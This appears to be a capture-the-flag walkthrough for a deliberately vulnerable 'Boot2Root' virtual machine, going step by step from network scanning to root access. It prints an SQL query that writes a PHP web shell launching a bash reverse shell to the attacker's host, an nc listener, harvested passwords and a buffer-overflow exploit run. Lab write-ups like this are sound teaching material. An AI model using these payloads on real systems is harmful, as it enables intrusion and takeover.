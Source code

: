 # Boot2Root WriteUp 1
## Step 1
We dont have any ip addres and any user to connect to. We need to find the local ip of the VM:
    
    $> ip addr show
        ...
        vboxnet0 ...
        inet 192.168.56.1/24 ...
        ....
We now have the addres ip of the Virtual Box network interface.

We will use nmap to scan the range of ip and find some machine on it:

    $> nmap 192.168.56.1/24
        ...
        192.168.56.101
        ...

There it is we have our ip address: `192.168.56.101` !
## Step 2
Now that we have the ip address of our VM we can scan it using dirb inside a kali container:

    $> docker run -it kalilinux/kali-rolling:latest
    $> apt update && apt install -y dirb
    $> dirp https://192.156.56.101
    ...
    https://192.156.56.101/forum
    https://192.156.56.101/phpmyadmin
    https://192.156.56.101/webmail
    ...
Great we have 3 places to analyze !

`/phpmyadmin` and `/webmail` require an username and a password so we start with `/forum`

## Step 3
3 out of 4 articles are useless by the one named `Probleme Login ?` by `lmezard` contains information.
We see in the log that right before `lmezard` connection the log output:

    !q]Ej?5K5cyAJ username incorect

We assume `lmezard` is `stupid` and tried to connect with his password as his username.
Indeed we can login in the forum with this information:

    username: lmezard
    password: !q]Ej?5K5cyAJ

## Step 4

In the forum profile of `lmezard` we get an email.

Lets try to connect through `/webmail` with :
    
    email: laurie@borntosec.net
    password: !q]Ej?5K5cyAJ

Gotem ! We have acces to his mails.

The only relevent mail here is `access db` which contains a password for the `root` user of the database.

    username: root
    password: Fg-'kKXBj87E:aJ$

## Step 5

We use the the previous password to access the database with a root access.

Thanks to this root access, inserting some php file is now easy.
Lets create a `temp` database and run this querry on it:

    SQL>SELECT "<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/4243 0>&1'"); ?>" into outfile "/var/www/forum/templates_c/reverse.php"

We then run this command on the host machine:

    $> nc -nvlp 4243

Its then needed to load this url on the browser `${VM_IP}/forum/templates_c/reverse.php`.

We now have a shell as user `www-data`


## Step 6

When looking around, we find this file

    $> /home/LOOKATME/password

This file provide all the required information to connect to lmezard in the VM (not through ssh)

    uesrname: lmezard
    password: G!@M6f4Eatau{sF"

## Step 7

We find a README that say that the result password shall be hash with sha256 to access `zaz` user and a zip archive on the `lmezard`'s home.

Inside there is a lot of pcap file with some C code in it and a file number information.
We use a python script called `pcap.py` to concatenate all the file and run the C program.

    $> python pcap.py
    $> gcc out.c
    $> ./a.out
        ...
        password: Iheartpwnage

so the result is :

    username: zaz
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## Step 8

There is a `bomb` that will explore !

We need to reverse engineering the bin `bomb` to defuse it and acces the next users.

- Phase 1: Public speaking is very easy.
 
- Phase 2: 1 2 6 24 120 720

- Phase 3: 1 b 214

- Phase 4: 9 austinpowers

- Phase 5: opekmq

- Phase 6: 4 2 6 3 1 5

There is a secret phase with we use specific answers.

- Phase Secret: 1001

We follow the README instruction and concatenate every answers without space

    username: thor
    password: Publicspeakingisveryeasy.126241207201b2149opekmq426135

## Step 9

There is a `turtle` file with some movement instructions.

We use a python script called `draw.py` to print the movements of the `turtle`.

![](image-1.png)

The word `SLASH` is hidded in this picture.

We MD5 `SLASH` thanks to the hint at the hend of turtle file that say : Can you `digest` the `message` ? MD5 stand for Message Digest 5.

    username: zaz
    password: 646da671ca01bb5d84dbb5fb2238dc8e

## Step 10

There is a bin called `exploit_me` that is own by the `root` user but `zaz` can execute it.
When reverse engineering we see that the program is vulnerable to a buffer overflow:

![](image-2.png)

The size writen inside buf is controled by the user and not by the program.
We use `payload.py` to generate a payload that will change the return addres of strcpy by our shellcode.

Our shellcode will jump to the function `system` with the addres of the string `"/bin/sh"`. This will effectively give us a root shell access.

    $> python payload.py
    $> ./exploit_me $(cat payload)
    $> whoami
        root
    $> id -u
        0

## Step 11

Done !
